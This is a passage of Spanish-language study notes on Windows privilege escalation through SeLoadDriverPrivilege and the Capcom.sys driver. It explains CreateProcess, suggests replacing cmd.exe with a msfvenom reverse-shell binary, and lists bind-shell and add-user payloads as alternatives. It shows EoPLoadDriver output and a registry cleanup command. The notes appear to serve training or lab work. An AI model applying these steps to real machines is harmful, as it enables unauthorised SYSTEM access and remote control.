 **Explicación de la función `CreateProcess` usada**:

* `CreateProcess(lpApplicationName, lpCommandLine, ...)` crea un nuevo proceso.
* En este ejemplo, `CommandLine` contiene la ruta a `cmd.exe` (doble `\\` por literal en C).
* `PROCESS_INFORMATION` y `STARTUPINFO` administran los handles y opciones de inicio.
* `CREATE_NEW_CONSOLE` indica crear una nueva consola.

**Cambio sugerido en el texto**: reemplazar la línea

```c
TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
```

por

```c
TCHAR CommandLine[] = TEXT("C:\\ProgramData\\revshell.exe");
```

y así lanzar un binario de *reverse shell* (`revshell.exe`) generado con `msfvenom`. El texto describe que se debe configurar un listener acorde al payload generado.

`Nota`: Si una `reverse shell` se bloquea por algún motivo, podemos intentar usar una `bind shell` o  bien usar un payload que ejecute un binario en la víctima o que añada un usuario(exec / add user)

---

## 11) Automatizar: `EoPLoadDriver`

El texto menciona la herramienta [`EoPLoadDriver`](https://github.com/TarlogicSecurity/EoPLoadDriver/) que automatiza pasos: habilitar el privilegio, crear la clave de registro y ejecutar `NtLoadDriver`.

Ejemplo de ejecución:

```
EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys

[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-...\System\CurrentControlSet\Capcom
NTSTATUS: c000010e, WinError: 0
```

**Interpretación**: `EoPLoadDriver` realiza automáticamente los pasos que antes hicimos manualmente (registro + habilitar) y ejecuta la llamada para cargar el driver. Luego se puede ejecutar `ExploitCapcom.exe` como se indicó antes.

---

## 12) Limpieza

Eliminar la clave que añadimos en HKCU:

```
reg delete HKCU\System\CurrentControlSet\Capcom
```
